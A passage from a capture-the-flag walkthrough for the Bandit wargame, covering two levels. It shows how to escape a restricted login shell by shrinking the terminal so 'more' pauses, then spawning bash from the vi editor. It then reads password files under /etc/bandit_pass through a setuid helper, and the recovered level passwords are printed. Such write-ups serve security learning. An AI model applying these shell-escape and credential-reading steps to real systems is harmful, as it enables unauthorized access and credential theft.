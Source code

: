 ```
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```
Now we can try to see what their `shell`, `/usr/bin/showtext`, does.
```
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```
When we long in, the `more` command is executed to display `text.txt`. Since the output of `text.txt` fills the entire terminal, the application then exits. We can force `more` to remain open by changing the number of rows our terminal has, then using `v` to enter an editor to try to view the password at `/etc/bandit_pass/bandit26` or to launch a `shell`.
```
bandit25@bandit:~$ stty rows 4
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost                                        
Could not create directory '/home/bandit25/.ssh'.                                                   
The authenticity of host 'localhost (127.0.0.1)' can't be established.                              
ECDSA key fingerprint is SHA256:98UL0ZWr85496EtCRkKlo20X3OPnyPSB5tB5RPbhczc.                        
Are you sure you want to continue connecting (yes/no)? yes
...
  _                     _ _ _   ___   __  
--More--(16%)
```
We can now press `v` to enter the editor, and enter the following to spawn a `bash` shell.
```
:set shell=/bin/bash
:shell
```
Now we can grab `bandit26`'s password.
```
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```

## Level 26
The password for `bandit27` is simple. If you have not spawned a shell in the previous level, you will need to. Executing `ls` shows we have a `suid` binary. This binary appears to operate similarly to a previous challenge.
```
bandit26@bandit:~$ ls -l
total 12
-rwsr-x--- 1 bandit27 bandit26 7296 May  7  2020 bandit27-do
-rw-r----- 1 bandit26 bandit26  258 May  7  2020 text.txt
bandit26@bandit:~$ ./bandit27-do 
Run a command as another user.
  Example: ./bandit27-do id
```
We can use this to read `/etc/bandit_pass/bandit27` to grab the password.
```
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```

